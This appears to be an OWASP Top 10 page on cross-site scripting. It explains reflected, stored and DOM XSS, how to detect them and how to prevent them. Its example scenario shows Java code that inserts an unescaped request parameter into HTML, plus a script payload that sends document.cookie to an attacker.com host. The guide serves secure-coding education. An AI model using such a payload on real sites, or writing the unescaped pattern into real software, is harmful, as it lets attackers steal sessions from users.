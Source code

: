 # A7 Cross Site Scripting

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl \| Exploitability | Prevalence \| Detectability | Technical \| Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Am I vulnerable to attack?

Three are three forms of XSS:

* **Reflected XSS**. If your application or API includes unsanitized user input as part of HTML output, and this is not validated or escaped, or there is no content security policy, the victim's browser will execute the attacker's arbitrary HTML or JavaScript content. Typically the user will need to interact with a link, or some other attacker controlled page, such as a watering hole attack such as malvertizing or similar. 
* **Stored XSS** If your application or API stores unsanitized user input, and then this is viewed at a later time by another user or an administrator, the attacker can run arbitrary HTML or JavaScript on the victim user or administrator's browser. As the impact is higher, stored XSS is often considered a high or critical risk. 
* **DOM XSS**. Modern JavaScript frameworks and single page applications and APIs that dynamically include attacker-controllable data to a page, are vulnerable to DOM XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but context aware escaping, input validation and content security policies can reduce the likelihood of all three forms of XSS.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DIV replacement or defacement (such as trojan login DIVs), attacks against the user's browser such as malicious software downloads, key logging, and other client side attacks.

Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, usually using third party libraries built on top of these technologies. This diversity makes automated detection difficult, particularly when using single-page applications and modern JavaScript frameworks and libraries, particularly if automated tools have not caught up with the new library, or if testers are unfamiliar with DOM XSS.

Development teams seeking to assess if they have cross site scripting should always use the latest frameworks, which typically aim to prevent XSS as a bug class. Deeper verification requires a combination of skilled penetration testing and manual source code review.

Large and high performing organizations should consider the use of automated SAST tools to inspect their source integrated into the CI/CD pipeline, along with automated scripted DAST tools such as OWASP Zap, scanning every build of every application in the portfolio to discover easily discovered flaws with every build. Although not a complete panacea, automated testing has a place in larger organizations where penetration tests after each build or manual source code review is impractical.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

1. Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve [Server XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Server_XSS) vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.

2. Applying context sensitive encoding when modifying the browser document on the client side acts against [client XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS). When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).

3. Enabling a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) (CSP) and moving inline javascript code to additional files will defend against XSS across the entire site, assuming no other vulnerabilities (such as upload path tampering or download path traversal) exist that would allow placing malicious code in the server files.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker manipulates the 'CC' parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session. 
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See 2017-A8 for information on CSRF.

## References

### OWASP

* [OWASP Proactive Controls - #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls - #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
